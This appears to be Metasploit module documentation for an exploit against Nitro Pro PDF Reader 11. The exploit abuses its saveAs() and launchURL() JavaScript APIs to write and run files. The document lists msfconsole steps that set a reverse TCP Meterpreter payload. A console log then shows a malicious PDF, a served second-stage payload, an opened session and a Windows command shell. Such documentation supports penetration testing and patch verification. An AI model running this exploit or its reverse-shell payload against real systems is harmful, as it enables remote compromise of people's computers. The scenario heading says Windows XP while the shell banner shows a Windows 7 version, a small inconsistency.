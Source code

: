 ## Vulnerable Application

This module exploits an unsafe Javascript API implemented in Nitro and Nitro Pro
PDF Reader version 11. The saveAs() Javascript API function allows for writing
arbitrary files to the file system. Additionally, the launchURL() function allows
an attacker to execute local files on the file system and bypass the security dialog

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/fileformat/nitro_reader_jsapi```
  4. Do: ```set payload windows/meterpreter/reverse_tcp```
  5. Do: ```set LHOST [IP]```
  6. Do: ```run```
  7. You should get a shell.
 
## Options

### FILENAME

The file name to save the exploit pdf to.  Default is `msf.pdf`

## Scenarios

### Nitro Pro PDF Reader 11.0.3.173 on Windows XP

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/nitro.rc
[*] Processing scripts/nitro.rc for ERB directives.
resource (scripts/nitro.rc)> use exploit/windows/fileformat/nitro_reader_jsapi
resource (scripts/nitro.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (scripts/nitro.rc)> set LHOST 172.16.175.1
LHOST => 172.16.175.1
resource (scripts/nitro.rc)> exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.175.1:4444
msf exploit(nitro_reader_jsapi) > [+] msf.pdf stored at /Users/mr_me/.msf4/local/msf.pdf
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.100.4:8080/
[*] Server started.
[*] 192.168.100.4    nitro_reader_jsapi - Sending second stage payload
[*] Sending stage (957487 bytes) to 172.16.175.232
[*] Meterpreter session 1 opened (172.16.175.1:4444 -> 172.16.175.232:49180) at 2017-04-05 14:01:33 -0500
[+] Deleted C:/Windows/Temp/UOIr.hta

msf exploit(nitro_reader_jsapi) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 2412 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\researcher\Desktop>
```
